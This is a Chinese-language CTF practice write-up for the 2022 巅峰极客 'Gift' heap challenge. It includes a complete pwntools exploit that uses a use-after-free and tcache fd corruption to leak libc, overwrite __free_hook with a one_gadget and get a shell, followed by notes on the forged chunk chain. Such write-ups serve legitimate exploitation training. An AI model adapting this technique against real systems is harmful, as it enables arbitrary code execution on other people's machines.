

# Practice:

一些平常联系的记录，不能摆烂了（x

## 巅峰极客2022Gift

libc2.27，很好的一道题（我不会

首先在remove_gift()中存在uaf漏洞


限制了add的次数是10次，常规的打法并不足够分配，这时我们注意到在另外一个bargain函数中可以控制堆块的fd，于是思路就很清晰了，通过控制fd，伪造出一条tcache的链子

### exp

```python
from pwn import*
# p = process("./service2")
p = remote("node4.anna.nssctf.cn", "28810")
menu = "your choice:\n"

def ChoiceGift(ch, payload):
    p.recvuntil(menu)
    p.sendline(str(2).encode())
    p.recvuntil(menu)
    p.sendline(str(ch).encode())
    p.recvuntil("plz write your wish on your gift!")
    p.send(payload)

def RemoveGift(idx):
    p.recvuntil(menu)
    p.sendline(str(3).encode())
    p.recvuntil("index?")
    p.sendline(str(idx))

def CheckGift(idx):
    p.recvuntil(menu)
    p.sendline(str(4).encode())
    p.recvuntil("index?")
    p.sendline(str(idx).encode())

def bargain(idx, money):
    p.recvuntil(menu)
    p.sendline(str(5).encode())
    p.recvuntil("index?")
    p.sendline(str(idx).encode())
    p.recvuntil("much?")
    p.sendline(str(money).encode())

# context.log_level = "debug"
ChoiceGift(1, "aaaaaaaa")
ChoiceGift(1, "aaaaaaaa")

RemoveGift(0)
RemoveGift(1)
CheckGift(1)
p.recvuntil("cost: ")
heap = int(p.recvline()) - 0x260

ChoiceGift(1, b"\x00"*0x10+p64(heap+0x400)+b"\x00"*0x68+p64(heap+0x410))
ChoiceGift(1, p64(heap+0x390))

RemoveGift(0)
RemoveGift(1)
bargain(1, -0x10)

ChoiceGift(1, "aaaaaaaa")
ChoiceGift(1, "bbbbbbbb")
ChoiceGift(1, "cccccccc")

RemoveGift(0)
CheckGift(0)

p.recvuntil("cost: ")
libc_base = int(p.recvline()) - 0x3ebca0
print(hex(libc_base))
ChoiceGift(1,p64(libc_base + 0x3ed8d8)) #__free_hook
ChoiceGift(1, "\n")
ChoiceGift(1,p64(libc_base + 0x4f302)) # one_gadget

RemoveGift(1)

p.interactive()
```

### 调试

前面的泄露函数基地址较为简单，主要是后面伪造tcache链的情况比较复杂

我们能修改的是某一个chunk的fd，并且在tcache中是以fd进行连接的，所以我们可以对tcache链进行伪造，比如

```
tcache -> fdA -> fdB
```

我们利用bargain函数修改fdA，就可以完成

```
tcachge -> fdHacked -> fdC ->fdD -> fdF ->fdG ->fdH
```

这样子就可以完成了，并且我们往tcache里面分配了这么多chunk，拿出两个以上就会使得tcache的idx变成负数，这样子就会把chunk放到unsortedbin里面了，这样子就可以获取libc基地址了，下面我们算一下我们要伪造几个chunk

- 首先，肯定需要三个以上，于是我们先拿出三个

  ```
  tcachge ->  fdF ->fdG ->fdH
  ```

- 这时候我们再remove一个已经分配的chunk，这样子的话就可以在unsortedbin里面获得libc

- 接着我们再申请fdF，tcache里面剩下的是

  ```
  tcachge -> fdG ->fdH
  ```

- 如果使得申请fdF写入的地方和fdG是一块地方，就可以接着申请到我们写入的内容，这样子的话我们就可以把在fdH的地方任意写

- 综上，我们需要伪造一个 _{fdHacked -> fdC ->fdD -> fdF ->fdG_ 的结构

正常的结构如下



所以我们通过+0x10，形成 370 -> 270 -> 390 -> 400 -> 410

最终申请400堆块，通过edit，在0x410的位置写入 __ free_hook - 0x10， 再申请0x410位置的chunk，之后再申请就可以修改 __free_hook了。

